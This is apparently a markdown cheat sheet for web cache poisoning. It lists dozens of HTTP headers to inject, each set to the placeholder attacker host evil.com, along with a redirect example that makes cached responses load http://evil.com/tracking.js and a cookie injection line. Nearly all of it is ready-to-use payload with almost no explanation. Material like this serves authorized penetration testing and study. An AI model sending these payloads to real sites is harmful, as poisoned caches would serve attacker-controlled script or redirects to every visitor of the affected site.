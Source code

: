 # Cache Poisoning

> Header Response: X-Cache: hit, Body Response: evil.com

## Header Inject
```http
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: nothttps
X-Forwarded-Server: evil.com
X-Host: evil.com
\: evil.com
User-Agent: evil.com
X-Original-Url: evil.com
X-Forwarded-Proto: evil.com
X-Original-URL: evil.com
X-Get-Cache-Key: evil.com
Accept-Version: evil.com
Acunetix-Header: evil.com
Api-Version: evil.com
Content-Type: evil.com
Fastly-Client-Ip: evil.com
Fastly-Ff: evil.com
Fastly-Host: evil.com
Fastly-Ssl: evil.com
Trailer: evil.com
X-Amz-Server-Side-Encryption: evil.com
X-forwarded-Prefix: evil.com
X-Original-Host: evil.com
Handle: evil.com
X-Rewrite-url: evil.com
Authorization: evil.com
X-Amz-website-Redirect-Location: evil.com
X-Http-Method-Override: evil.com
X-Forwarded-Proto: evil.com
Capitalized host header: evil.com
```
### Location Attack
```http
Header Request
X-Forwarded-Scheme: http
X-Forwarded-Prefix: evil.com
```
```http
Header Response
Location: http://evil.com/tracking.js
```


## Cookie Inject
```http
Cookie: feHost=something/evil.com
```

## Burp Suite Extension
Guess Headers!
 
